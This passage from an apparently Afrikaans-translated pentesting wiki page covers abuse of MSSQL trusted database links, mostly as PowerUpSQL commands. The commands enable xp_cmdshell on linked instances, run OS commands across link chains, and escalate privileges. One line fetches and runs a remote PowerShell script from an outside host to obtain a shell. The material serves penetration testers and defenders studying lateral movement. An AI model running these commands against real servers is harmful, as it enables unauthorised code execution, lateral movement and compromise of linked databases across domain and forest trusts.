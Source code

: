 Dit mag ook moontlik wees om **opdragte** binne die MSSQL-gasheer uit te voer.
```bash
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```
Kontroleer in die bladsy genoem in die **volgende afdeling hoe om dit handmatig te doen.**

### MSSQL Basiese Hacking Trukke

{{#ref}}
../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/
{{#endref}}

## MSSQL Betroubare Skakels

As 'n MSSQL-instansie betroubaar (databasis skakel) is deur 'n ander MSSQL-instansie. As die gebruiker bevoegdhede oor die betroubare databasis het, sal hy in staat wees om **die vertrouensverhouding te gebruik om navrae ook in die ander instansie uit te voer**. Hierdie vertroue kan geketting word en op 'n sekere punt mag die gebruiker in staat wees om 'n verkeerd geconfigureerde databasis te vind waar hy opdragte kan uitvoer.

**Die skakels tussen databasisse werk selfs oor woudvertroue.**

### Powershell Misbruik
```bash
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting from the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```